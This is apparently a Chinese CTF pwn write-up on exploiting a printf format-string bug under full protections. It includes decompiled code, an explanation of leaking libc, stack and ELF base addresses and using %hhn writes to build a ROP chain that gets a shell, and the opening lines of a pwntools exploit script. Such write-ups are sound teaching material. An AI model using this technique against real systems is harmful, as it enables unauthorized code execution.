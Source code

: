 保护全开的格式化字符串

**IDA 静态分析一下**

main()

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init(argc, argv, envp);
  run();
  return 0;
}
```

run()

```plain
unsigned __int64 run()
{
  char s1[88]; // [rsp+0h] [rbp-60h] BYREF
  unsigned __int64 v2; // [rsp+58h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("I need a str: ");
  read_n(s1, 80LL);
  if ( !strcmp(s1, "EXIT") )
    exit(0);
  printf(s1);
  putchar(10);
  printf("I need other str: ");
  read_n(s1, 80LL);
  printf(s1);
  return __readfsqword(0x28u) ^ v2;
}
```

可以看到这里其实就是格式化字符串的漏洞利用点了

第一个 printff 泄露栈上数据，得到 libc 基址，栈基址以及 elf 文件基址。第二次 printf 利用先前泄露的地址，通过%hhn，修改 run 函数返回地址的低位字节，将其修改为 main 函数中的 call run 指令。

这样当我们执行完 run 之后会再次调用 run，我们可以每次 printf 都往 run 函数的返回地址下方写入 rop 链，并将 run 的返回地址修改为 call run，这样返回到 rop 链在 run 的返回地址下布置好，最后一次再把 run 的返回地址改为与其相近的 ret 指令地址即可执行 rop 链从而 getshell。

[![](assets/1701612281-ccdf86a658da996b2267131236872926.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224313-6c89edf6-2579-1.png)

exp:

```plain
from pwn import *

context.log_level='debug'
context.arch='amd64'

p=process('./pwn')
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
```